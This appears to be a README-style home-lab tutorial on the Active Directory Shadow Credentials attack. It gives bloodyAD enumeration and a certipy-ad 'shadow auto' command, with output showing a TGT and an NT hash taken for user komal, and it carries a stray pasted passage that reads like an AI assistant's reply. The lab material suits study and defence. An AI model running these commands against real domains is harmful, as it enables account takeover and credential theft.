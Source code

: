 
# 🔐 Shadow Credentials 

**Shadow Credentials** is an Active Directory persistence technique where an attacker adds their own public key credential to a target account’s `msDS-KeyCredentialLink` attribute.

Normally, this attribute is used by **Windows Hello for Business (WHfB)** in **Key Trust mode** to store public keys that allow a user to log in without a password — using PKINIT (Kerberos authentication with public key cryptography).

If an attacker can write to this attribute, they can:

1. **Inject their own key** into the victim’s account.
2. Authenticate as that victim **without knowing their password or hash**.
3. Bypass common credential theft defenses like smart card requirements or password resets.

---

## **Why It Works**

* **WHfB Key Trust** stores a public key in `msDS-KeyCredentialLink`.
* A domain controller with Server Authentication certificate + Windows Server 2016 functional level supports PKINIT.
* When a client presents the matching private key, the DC issues a Kerberos TGT **as if they were the account owner**.

So if you control the attribute, you control the account.

## Setting up a Home Lab for Shadow Credentials

Let’s suppose we have two users: **Komal** and **Hamza**.  
Hamza has **GenericWrite** or **Write** permissions on the **msDS-KeyCredentialLink** attribute of the user **Komal**.  
In this case, we can perform the Shadow Credentials attack.

---

### Step 1: Open ADSI Edit  
1. Go to **ADSI Edit**.  
2. Navigate to the **target account** (Komal).  
3. Right-click → **Properties** → **Security**.  
4. Click **Add** and select the **owned account** (Hamza).  

![Step 1](Imgs/image2.png)

---

### Step 2: Grant Write Permission to `msDS-KeyCredentialLink`  
1. In the Security tab, click **Advanced**.  
2. Select **Hamza** and give **Write** permissions to the `msDS-KeyCredentialLink` attribute.  

![Step 2](Imgs/image3.png)


### Enumeration of Shadow Credentials

We can enumerate shadow credential permissions using **BloodHound** or **BloodyAD**.

**Using BloodHound**

![Enumeration](Imgs/image1.png)

**Using BloodyAD**

```bash
┌──(kali㉿kali)-[~]
└─$ bloodyAD --host furious.local -d furious.local -u 'hamza' -p 'complex1@' get writable --detail

distinguishedName: CN=S-1-5-11,CN=ForeignSecurityPrincipals,DC=furious,DC=local
url: WRITE
wWWHomePage: WRITE

distinguishedName: CN=komal,CN=Users,DC=furious,DC=local
msDS-KeyCredentialLink: WRITE

distinguishedName: CN=hamza,CN=Users,DC=furious,DC=local
thumbnailPhoto: WRITE
pager: WRITE
mobile: WRITE
homePhone: WRITE
.
.
.
```

Got it — so you’re documenting the **abuse phase** of the Shadow Credentials attack.

Your snippet is already a solid terminal output, but in your document you’ll want to explain **what’s happening at each step**, otherwise it’s just a block of commands.

Here’s how you could break it down:

---

### **Abusing Shadow Credentials with Certipy**

Once the targeted account (`komal`) has the `msDS-KeyCredentialLink` attribute populated with a malicious key credential, we can authenticate as that account without knowing its password.

We can automate the whole process using:

```bash
certipy-ad shadow auto -u hamza -p complex1@ -account komal -dc-ip $IP
```

**Explanation of parameters:**

* `-u hamza` – The compromised account we control (with write access to `komal`’s `msDS-KeyCredentialLink` attribute).
* `-p complex1@` – Password for `hamza`.
* `-account komal` – The target account we want to impersonate.
* `-dc-ip $IP` – IP address of the domain controller.

---

### **Step-by-step output explanation**

1. **Generate certificate & key credential**

   * Certipy creates a self-signed certificate and a Key Credential (with a unique `DeviceID`).

2. **Add Key Credential to target account**

   * The malicious Key Credential is added to the target’s `msDS-KeyCredentialLink` attribute.

3. **Authenticate with certificate**

   * Certipy uses the certificate to request a Kerberos TGT for `komal` (certificate-based authentication bypasses the need for a password).

4. **Retrieve NT hash**

   * Once authenticated, the NTLM hash of `komal` is retrieved from the domain controller.
   * This hash can be used for **Pass-the-Hash** or other lateral movement.

5. **Restore original Key Credentials**

   * The malicious key credential is removed to reduce detection risk.


```
┌──(kali㉿kali)-[~]
└─$ certipy-ad shadow auto -u hamza -p complex1@ -account komal -dc-ip $IP
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Targeting user 'komal'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '54fae7a7-d609-acf5-0b07-2f77ca8e12f2'
[*] Adding Key Credential with device ID '54fae7a7-d609-acf5-0b07-2f77ca8e12f2' to the Key Credentials for 'komal'
[*] Successfully added Key Credential with device ID '54fae7a7-d609-acf5-0b07-2f77ca8e12f2' to the Key Credentials for 'komal'
[*] Authenticating as 'komal' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'komal@furious.local'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'komal.ccache'
[*] Wrote credential cache to 'komal.ccache'
[*] Trying to retrieve NT hash for 'komal'
[*] Restoring the old Key Credentials for 'komal'
[*] Successfully restored the old Key Credentials for 'komal'
[*] NT hash for 'komal': f26db8968d8e6c0790978b2b30b262e5

```
